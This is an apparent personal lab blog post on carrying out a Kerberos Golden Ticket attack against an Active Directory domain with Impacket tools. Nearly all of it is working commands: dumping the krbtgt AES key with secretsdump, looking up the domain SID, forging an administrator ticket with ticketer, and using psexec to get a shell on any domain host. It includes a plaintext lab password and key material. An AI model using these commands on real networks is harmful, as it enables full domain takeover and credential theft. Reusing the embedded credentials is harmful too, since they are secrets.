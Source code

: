 ```yaml
---
layout: post
title: Golden Ticket Attacks using Impacket
---
```


After playing about with Mimikatz for a bit and looking at a few options to bypass the anti virus, I decided a different tool might make more sense.
Impacket contains a number of tools that can be used to obtain the krbtg hash and the domain SID, create a golden ticket offline and then obtain a shell using the Kerberos ticket.

> [!NOTE]
> Credentials are needed to run these commands on the domain controller. These can be obtained by cracking NTLM hashes  or running a MITM6 attack.

<details>
<summary>Use secretsdump.py to obtain the aes256 key for the krbtgt account</summary>

```secretsdump.py <domain>/<user>:<password> <dc-ip>
   secretsdump.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250
```
</details>

<details>
<summary>Use lookupsid.py to find the domain SID</summary>summary>

```Lookupsid.py <domain>/<user>:<password> <dc-ip>
   Lookupsid.py home.local/TaMBSZZkfd:'?^kigXF?oG,y{o='@10.0.2.250
```
</details>

<details>
<summary>Use ticketer.py to create TGT</summary>summary>

```ticketer.py -aes <aes-256> -domain-sid <SID> -domain <domain> -user-id <500> username
   ticketer.py -aes 5735dd8eaf424d966ef640d4056e2eb90310345d58b074103444483bdf736861 -domain-sid S-1-5-21-536825828-3248286720-2276939788 -domain home.local -user-id 500 administrator
```
</details>

<details>
<summary>Export KRB5CCNAME to created ticket location</summary>summary>

```export KRB5CCNAME=/home/kali/Documents/administrator.ccache
```
</details>

<details>
<summary>Use psexec to obtain a shell on any machine in the domain</summary>summary>

```psexec.py <domain>/<user>@<hostname>.<fqdn> -no-pass -k
   psexec.py home.local/administrator@TargetPC.home.local -no-pass -k
```
</details>
